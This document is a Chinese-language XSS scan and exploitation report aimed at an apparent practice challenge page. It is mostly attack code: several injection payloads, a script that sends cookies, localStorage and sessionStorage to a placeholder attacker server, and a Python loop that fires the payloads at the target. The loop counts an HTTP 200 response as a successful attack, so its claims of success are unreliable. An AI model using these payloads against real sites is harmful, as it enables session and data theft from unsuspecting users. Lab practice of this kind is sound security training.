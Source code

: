 # 漏洞扫描报告
扫描时间: 2025-01-19 22:22:02
目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
扫描模式: 自动化攻击

# 漏洞扫描和利用报告

## 成功的攻击方法总结

### 1. XSS攻击方法
#### 基础注入:
```javascript
<script>alert(1)</script>
```

#### 图片标签注入:
```javascript
<img src=x onerror=alert(1)>
```

#### SVG标签注入:
```javascript
<svg onload=alert(document.domain)>
```

#### 数据窃取Payload:
```javascript
<script>
// 窃取Cookie
fetch('http://攻击者服务器/collect?cookie='+document.cookie)
// 窃取LocalStorage
fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))
// 窃取SessionStorage
fetch('http://攻击者服务器/collect?data='+JSON.stringify(sessionStorage))
</script>
```

#### 自动化攻击代码:
```python
import requests

def xss_attack(url, payload):
    params = {'name': payload}
    response = requests.get(url, params=params)
    return response.status_code == 200

# 使用示例
url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
payloads = [
    '<script>alert(1)</script>',
    '<img src=x onerror=alert(1)>',
    '<svg onload=alert(document.domain)>'
]

for payload in payloads:
    if xss_attack(url, payload):
        print(f"XSS攻击成功: {payload}")
```
